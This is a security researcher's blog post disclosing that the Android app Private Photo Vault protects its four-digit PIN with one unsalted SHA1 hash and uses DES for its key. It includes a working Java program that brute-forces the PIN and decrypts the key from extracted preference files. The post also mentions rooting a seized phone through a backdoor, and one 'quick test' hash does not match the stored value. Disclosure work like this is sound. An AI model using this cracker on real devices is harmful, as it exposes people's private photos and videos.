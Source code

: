 ```yaml
---
layout: post
title: Password Storage In Sensitive Apps
---
```

Well it isn’t the promised Pork Explosion disclosure, but I ensure you that is coming soon. I have word the update to mitigate it is done, and will be shipping this month. I do however have something else, an example of what Pork Explosion could be stacked with.

Last week I was contacted by a forensic specialist for a law enforcement agency. They had a phone that could make or break a very sensitive case, and their commercial mobile forensic tools were failing to do, well anything. They could not extract any data off the device. After verifying their identity and purpose, I agreed to help. Using a backdoor, very much like Pork Explosion, and some trickery we were able to fully extract all data off the device. This had me thinking, what next? What if this criminal was using another layer of security? What if they had a "secure storage" app, what if their photos, videos and what not were encrypted in an addition layer of security?

Off to the Google PlayStore, searched for "Secure Photo" and downloaded the first result, sure enough the files stored were encrypted.... but the PIN was stored in plaintext as a shared preference. Ok no fun, so I install the second result.

>“Have any photos or videos you don't want someone to see? Hide these private pics and vids securely with Private Photo Vault.”

The second result was [“Private Photo Vault”](https://privatephotovault.com/) by Legendary Software Labs LLC. It has a solid 4 star rating, 1,000,000 to 5,000,000 downloads, and was lasted updated just over two months ago. Using Pork Explosion, I rooted the device and extracted the data directory for Private Photo Vault. The initial results were more promising than the first app, no plaintext PIN stored in the shared preferences. The promise didn’t last long:

Stored in /data/data/com.enchantedcloud.photovault/shared_prefs/com.enchantedcloud.photovault_preferences.xml was what appeared to be the sha1 hash of the PIN and some base64 encoded key.

>name="pin" 7110eda4d09e062aa5e4a390b0a572ac0d2c0220
>name=“enc_keys_pin" Dar+SDapSbp1mKcztPYWi4vDcvGBNLM8B7WVy00MT1WK0gd2R4wAdg==

A quick test confirms:

>Jons-Mac-Pro:~ jcase$ echo -ne 1224|shasum
>4fd505f8aeed956f068c4ce57bfc30a6131b7c79 

A single iteration of SHA1 is all that is protecting your PIN code (which is limited to four digits in length). Then DES is used, padding the PIN with “0” until it has a length of 8, to encrypt a key. I stopped analysis at this point, the app was already beyond broken. The app then goes on to use   Facebook’s Android encryption library [Conceal](https://github.com/facebook/conceal), but I did not go any further.

These companies are selling products that claim to securely store your most intimate pieces of data, yet are at most snake oil. You would have near equal protection just by changing the file extension and renaming the photos.


So for those that want to crack the pin and key for a “Private Photo Vault” installation, here you go.

~~~ java
public class Main {

    public static void main(String[] args) {
     
     // "pin" and "enc_keys_pin" from com.enchantedcloud.photovault_preferences.xml
        String hashedPIN = "7110eda4d09e062aa5e4a390b0a572ac0d2c0220"; // 1234
        String encKeyPin = "Dar+SDapSbp1mKcztPYWi4vDcvGBNLM8B7WVy00MT1WK0gd2R4wAdg=="; // 1e8a99cb-ebe8-452c-b9da-6466a8a60e02

        System.out.println("Cracking pin...");
        String PIN = crackPIN(hashedPIN);
        System.out.println("PIN is " + PIN);

        System.out.println("Decrypting Key...");
        String KEY = decryptKey(encKeyPin,PIN);
        System.out.println("KEY is " + KEY);
    }
    
    private static String decryptKey (String KEY, String PIN) {

        while (PIN.length() < 8) {
            PIN = PIN + 0;
        }

        SecretKey secKey = null;
        try {
            secKey = SecretKeyFactory.getInstance("DES").generateSecret(new DESKeySpec(PIN.getBytes("UTF8")));
            byte[] bKey = Base64.decode(KEY);
            Cipher cipher = Cipher.getInstance("DES");
            cipher.init(2, (secKey));
            return new String(cipher.doFinal(bKey));
        } catch (InvalidKeySpecException e) {
            e.printStackTrace();
        } catch (NoSuchAlgorithmException e) {
            e.printStackTrace();
        } catch (InvalidKeyException e) {
            e.printStackTrace();
        } catch (UnsupportedEncodingException e) {
            e.printStackTrace();
        } catch (BadPaddingException e) {
            e.printStackTrace();
        } catch (IllegalBlockSizeException e) {
            e.printStackTrace();
        } catch (NoSuchPaddingException e) {
            e.printStackTrace();
        }
        return null;
    }

    private static String crackPIN(String hashedPIN) {
        for (int i = 0; i <= 9999;i++) {
            String testPin = Integer.toString(i);
            while (testPin.length() < 4) {
                testPin = "0" + testPin;
            }
            try {
                MessageDigest md = MessageDigest.getInstance("SHA-1");
                md.reset();
                md.update(testPin.getBytes());
                if (hashedPIN.equals(bytesToHex(md.digest()))) {
                    return testPin;

                }
            } catch (NoSuchAlgorithmException e) {
                e.printStackTrace();
            }
        }
        return null;
    }

    private static String bytesToHex(byte[] bytes) {
        char[] hexArray = "0123456789abcdef".toCharArray();
        char[] hexChars = new char[bytes.length * 2];
        for ( int j = 0; j < bytes.length; j++ ) {
            int v = bytes[j] & 0xFF;
            hexChars[j * 2] = hexArray[v >>> 4];
            hexChars[j * 2 + 1] = hexArray[v & 0x0F];
        }
        return new String(hexChars);
    }
}
~~~
